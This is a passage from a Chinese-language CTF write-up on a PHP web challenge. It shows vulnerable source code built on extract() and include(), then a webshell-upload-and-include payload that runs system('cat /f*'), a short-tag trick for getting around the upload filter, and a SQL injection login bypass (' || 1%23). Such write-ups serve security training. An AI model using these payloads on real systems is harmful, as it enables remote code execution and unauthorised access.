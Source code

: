 伪协议被ban了

```php
# api/admin_file_view.php
extract($_POST);
if(preg_match('/php|sml|phar|\:|data|file/i', $f)){
	$ret['msg']='请不要使用此功能';
	die(json_encode($ret));
}
if($debug==1 && preg_match('/^user/', file_get_contents($f))){
	include($f);
}

```

利用头像上传点上传马，再包含就行

![](https://i.loli.net/2021/11/20/pF7L4jbtXv9azef.png)

拿到路径然后包含：

```
api/admin_file_view.php

POST:
debug=1&f=/var/www/html/img/00bf23e130fa1e525e332ff03dae345d.png&1=system('cat /f*');
```

## 509-同上

对头像上传的内容加上了正则过滤：

```php
# api/admin_upload.php
    
if(!preg_match('/^php$/i', $ext)){
	if(preg_match('/php|sml|phar|\:|data|file/i', file_get_contents($arr["tmp_name"]))){
              	$ret['msg']='请不要使用此功能';
              	die(json_encode($ret));
      		}
```

用短标签绕，别的都一样

![](https://i.loli.net/2021/11/20/N9erHd2ICtlVWPn.png)



## 510-session文件包含

登录

```
/index.php?action=check

post：（两个都行）
username=' || 1%23&password=1
```
